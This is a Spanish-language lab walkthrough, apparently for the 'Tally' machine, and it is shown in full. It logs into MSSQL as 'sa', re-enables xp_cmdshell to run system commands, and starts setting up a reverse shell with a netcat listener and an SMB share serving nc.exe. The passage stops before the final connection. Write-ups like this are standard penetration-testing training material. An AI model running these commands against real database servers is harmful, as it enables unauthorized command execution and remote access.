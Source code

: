 ```bash
sqsh -S 10.10.10.59 -U 'sa'
password: ********
```

Es valida y estamos connectado a la base de datos

```bash
xp_cmdshell "whoami"
go
```

El commando xp_cmdshell a sido desactivado. Vamos a activar la possiblidad de ejecutar commandos.

```bash
sp_configure "show advanced options", 1
reconfigure
go

sp_configure "xp_cmdshell", 1
reconfigure
go
```

Ya podemos ejectuar commandos

```bash
xp_cmdshell "whoami"
go

#Output
tally\sarah
```

> [ ! ]NOTAS: tambien se podria usar el commando 
```bash
 impacker-mssqlclient WORKGROUP/sa@10.10.10.59 
```
 y con este commando no tendriamos que darle siempre a go.

Como tenemos possiblidad de ejecutar commandos a nivel de systema, nos vamos a connectar a la maquina.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con MS-SQL {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Compartimos el binario nc.exe

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe .
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```
